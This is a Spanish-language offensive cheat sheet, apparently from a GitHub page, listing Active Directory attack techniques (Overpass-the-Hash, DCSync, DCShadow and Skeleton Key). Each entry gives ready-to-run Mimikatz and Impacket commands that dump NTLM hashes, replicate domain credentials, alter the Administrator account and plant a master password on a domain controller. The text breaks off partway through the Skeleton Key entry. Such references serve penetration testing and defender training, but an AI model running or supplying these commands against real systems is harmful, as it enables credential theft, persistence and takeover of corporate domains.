 ### Overpass-the-Hash (Pass-the-Key)
- **Descripción**: Convierte un hash NTLM en un ticket Kerberos.
- **Método**: Dump de hash NTLM y conversión a ticket Kerberos.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # sekurlsa::pth /user:username /domain:example.com /ntlm:<hash> /run:cmd.exe
    ```
  - **Kali Linux**:
    ```bash
    # Después de obtener el hash NTLM, se puede utilizar una máquina Windows para ejecutar Mimikatz con el comando anterior.
    ```

### DCSync
- **Descripción**: Simula el comportamiento de un DC para solicitar credenciales.
- **Método**: Dump de credenciales usando privilegios de replicación.
- **Herramienta**: `Mimikatz`, `Impacket`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # lsadump::dcsync /user:Administrator
    ```
  - **Kali Linux**:
    ```bash
    secretsdump.py -just-dc-ntlm example.com/Administrator@<DC_IP>
    ```

### DCShadow
- **Descripción**: Introduce cambios maliciosos en Active Directory.
- **Método**: Usa privilegios de replicación para hacer cambios.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=example,DC=com /attribute:sAMAccountName /value:Admin
    ```
  - **Kali Linux**:
    ```bash
    # DCShadow requiere ejecución en un entorno Windows con privilegios adecuados.
    ```

### Skeleton Key
- **Descripción**: Inserta una contraseña maestra en el controlador de dominio.
- **Método**: Inyecta una llave esqueleto en la memoria del DC.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # misc::skeleton
    ```
  - **Kali Linux**:
    ```bash